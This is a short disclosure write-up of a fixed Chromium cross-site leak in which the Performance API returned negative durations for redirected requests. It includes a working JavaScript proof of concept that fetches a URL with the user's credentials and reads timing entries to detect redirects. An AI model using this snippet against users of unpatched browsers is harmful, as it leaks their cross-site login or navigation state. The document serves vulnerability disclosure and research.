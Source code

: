 ```yaml
---
title: Performance API time travel on redirect (Fixed)
---
```


The Performance API leaked if a URL was a redirect by returning a negative number.
```js
async function isRedirected(url) {  
    let href = new URL(url).href;
    await fetch(href, {mode: "no-cors", credentials: "include" });
    // Wait for request to be added to performance.getEntriesByName();
    await new Promise(r => setTimeout(r, 200));
    // Get last added timings
    let res = performance.getEntriesByName(href).pop();
    console.log("Request duration: " + res.duration);
    if(res.duration >= 0) return false
    if(res.duration > -10) console.log("Redirect was cached");
    return true;
}
```
This was fixed in <https://issues.chromium.org/issues/40054148>  
Not rewarded as [posted](https://github.com/xsleaks/wiki/pull/69) publicly on the xsleaks wiki.
